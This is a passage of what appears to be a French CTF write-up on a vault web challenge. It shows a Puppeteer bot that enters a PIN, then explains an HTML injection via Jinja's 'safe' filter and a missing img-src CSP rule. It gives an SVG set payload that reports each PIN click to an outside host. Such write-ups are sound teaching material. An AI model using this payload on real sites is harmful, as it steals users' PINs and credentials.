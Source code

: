 ```js

        await page.waitForSelector("#unlockVaultModal", { visible: true });

        await page.waitForSelector("#vaultId");
        await page.select("#vaultId", await page.evaluate(() => {
            let select = document.querySelector("#vaultId");
            return select.options.length > 1 ? select.options[1].value : null;
        }));

        for (let digit of pin) {
            await page.click(`#pin${digit}`);
            await new Promise(resolve => setTimeout(resolve, 1000));
        }

        await page.click("#unlockVaultForm button[type=submit]");

        await new Promise(resolve => setTimeout(resolve, 1000));

        await browser.close();
    } catch (error) {
        console.error(`Error visiting ${url}:`, error);
    }
}
```

Le gardien agit donc parfaitement comme un humain utilisant l'interface utilisateur classique. 

## Injection HTML et extraction du PIN

Lorsque l'on créé un coffre, il est donc possible dû à l'usage de `{{ vault.name|safe }}` d'injecter de l'HTML qui ne sera pas traité par Jinja (remplacement des caractères par leur équivalent 'encodé', par exemple : '&' devient '&amp', etc...) et donc rendu comme étant de l'HTML par le navigateur. 

Quoiqu'il en soit, ici nous n'avons pas besoin d'une XSS pour récupérer le PIN tapé par le gardien. Un élément 'non limité' par la CSP étudiée précedemment est l'absence de politique conçernant [`img-src`](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/Content-Security-Policy/img-src).

La charge HTML suivante permet de sniffer les clics sur un élément HTML précis : 

```html
<svg>
    <image href="/">
        <set begin="pin1.click" attributeName=href to="https://blog.bwlryq.net/?pins=1" dur="0.1s"></set>
    </image>
</svg>
```

Nous injectons une balise `<svg>` contenant une balise `<img>` qui elle-même contient un `<set>`. Pour rappel, `<set>` ne peut être utilisé que dans le contexte d'une balise `<svg>`, d'où la présence de celle-ci. La partie intéressante ici concerne le `<set>`, nous allons donc le décomposer. 

```html
<set begin="pin1.click" attributeName=href to="https://blog.bwlryq.net/?pins=1" dur="0.1s"></set>
```
